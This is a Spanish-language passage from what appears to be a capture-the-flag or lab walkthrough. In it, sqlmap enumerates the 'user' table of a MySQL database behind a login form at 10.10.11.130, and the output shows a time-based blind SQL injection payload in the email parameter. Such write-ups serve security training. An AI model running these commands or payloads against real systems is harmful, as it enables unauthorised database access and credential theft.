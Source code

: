 ```bash
[19:17:24] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.11.130'

[*] ending @ 19:17:24 /2024-10-14/
```
Ahí están las tablas, pero solo nos interesa la tabla **user**.

Probemos si puede obtener las columnas de la tabla **user**, indicándole la tabla (`-T`) y que obtenga las columnas (`--columns`):
```bash
sqlmap -r loginRequest.txt --batch --dbs -D main -T user --columns
        ___
       __H__                                                                                                                                                                                                     
 ___ ___[(]_____ ___ ___  {1.8.9#stable}                                                                                                                                                                         
|_ -| . [.]     | .'| . |                                                                                                                                                                                        
|___|_  ["]_|_|_|__,|  _|                                                                                                                                                                                        
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                     

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:17:57 /2024-10-14/

[19:17:57] [INFO] parsing HTTP request from 'loginRequest.txt'
[19:17:58] [INFO] resuming back-end DBMS 'mysql' 
[19:17:58] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=test1@test.com' AND (SELECT 2081 FROM (SELECT(SLEEP(5)))LEKh) AND 'Jmin'='Jmin&password=test123
---
[19:17:58] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[19:17:58] [INFO] fetching database names
[19:17:58] [INFO] fetching number of databases
[19:17:58] [INFO] resumed: 2
[19:17:58] [INFO] resumed: information_schema
[19:17:58] [INFO] resumed: main
available databases [2]:
[*] information_schema
[*] main

[19:17:58] [INFO] fetching columns for table 'user' in database 'main'
[19:17:58] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                  
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[19:18:08] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
```